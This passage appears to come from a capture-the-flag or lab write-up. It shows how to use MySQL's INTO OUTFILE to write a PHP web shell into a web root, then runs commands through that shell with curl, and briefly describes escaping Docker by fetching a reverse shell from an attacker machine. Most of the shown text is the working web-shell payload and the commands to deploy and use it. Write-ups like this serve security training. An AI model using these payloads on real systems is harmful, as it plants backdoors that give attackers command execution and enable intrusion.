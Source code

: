 

```
CREATE TABLE hacker ( hacker varchar(255) );

INSERT INTO hacker (hacker) VALUES (‘<?php $cmd=$_GET[“cmd”];system($cmd);?>’);

SELECT '<?php $cmd=$_GET["cmd"];system($cmd);?>' INTO OUTFILE '/var/www/html/shell.php';

curl 192.168.100.1:8080/shell.php?cmd=whoami
```



```
select '<?php $cmd=$_GET["cmd"];system($cmd);?>' INTO OUTFILE '/var/www/html/shell.php';
```

```
curl 192.168.100.1:8080/shell.php?cmd=whoami
```



![image-20211230015814485](HOLO.assets/image-20211230015814485.png)





### Breaking out of Docker



1. Dropped php file can be used to download a reverse shell from attacker machine.
2. The downloaded shell script will execute a give a shell.
